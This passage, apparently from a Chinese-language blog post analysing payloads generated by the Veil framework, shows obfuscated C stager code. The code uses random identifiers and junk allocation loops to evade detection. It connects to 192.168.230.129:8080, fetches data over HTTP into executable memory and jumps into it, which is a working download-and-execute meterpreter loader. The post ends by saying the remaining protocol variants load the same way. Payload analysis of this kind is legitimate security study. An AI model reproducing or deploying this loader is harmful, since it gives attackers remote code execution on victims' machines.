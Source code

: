 ```
    if (Iaedcj == NULL) 
        MxzrqhwCGD(rrlyFfRiscWV);
    memcpy(&amp;XIHDAdziTSd.sin_addr.s_addr, Iaedcj-&gt;h_addr, Iaedcj-&gt;h_length);
    XIHDAdziTSd.sin_family = AF_INET;
    XIHDAdziTSd.sin_port = htons((673*12+4));
    if ( connect(rrlyFfRiscWV, (struct sockaddr *)&amp;XIHDAdziTSd, sizeof(XIHDAdziTSd)) ) 
        MxzrqhwCGD(rrlyFfRiscWV);
 return rrlyFfRiscWV;
`}`

int main(int argc, char * argv[]) 
`{`
    char * EcQtTd;
    int i;
    char* YGADVFvMCa[5463];
    for (i = 0;i &lt; 5463;++i)
        YGADVFvMCa[i] = malloc (4182);
    MzItUPnp();
    char* WCficlPxKiWRYg[264];
    SOCKET mpmACD = rGEiHkVJYjGbir();
    for (i = 0;i &lt; 264;++i) 
        WCficlPxKiWRYg[i] = malloc (2850);
    char mwKObmvDwOIuJ[200];
    sprintf(mwKObmvDwOIuJ, "GET /%s HTTP/1.1\r\nAccept-Encoding: identity\r\nHost: 192.168.230.129:8080\r\nConnection: close\r\nUser-Agent: Mozilla/4.0 (compatible;MSIE 6.1;Windows NT\r\n\r\n", XqleexaJmujm());
    send(mpmACD,mwKObmvDwOIuJ, strlen( mwKObmvDwOIuJ ),0);
    Sleep(300);
    EcQtTd = VirtualAlloc(0, 1000000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    char* AGwAhuoOYGFoNzq[9887];
    for (i=0;i&lt;5463;++i)
    `{`
        strcpy(YGADVFvMCa[i], OZNtVHUJ());
    `}`
    char * umWSfvQxRu = EcQtTd;
    int XHuuVPORMriW;
    do 
    `{` 
        XHuuVPORMriW = recv(mpmACD, umWSfvQxRu, 1024, 0);
        umWSfvQxRu += XHuuVPORMriW;
    `}`while ( XHuuVPORMriW &gt; 0 );
    for (i = 0;i &lt; 9887;++i)
        AGwAhuoOYGFoNzq[i] = malloc (4361);
    for (i=0;i&lt;264;++i)
    `{`
        strcpy(WCficlPxKiWRYg[i], ezkJzCUX());
    `}`
    closesocket(mpmACD);
    WSACleanup();
    ((void (*)())strstr(EcQtTd, "\r\n\r\n") + 4)();
    for (i=0;i&lt;9887;++i)
    `{`
        strcpy(AGwAhuoOYGFoNzq[i], UQVVQa());
    `}`
    return 0;
`}`
```

由于 6 7 8三个选项只是请求协议不同，加载方式还是大同小异的，这里就不分别对后面的进行生成和分析了。

不过关于Veil生成的meterpreter还是比较有意思的，本文篇幅至此，若是下一篇有机会的话将其完整分析补上。
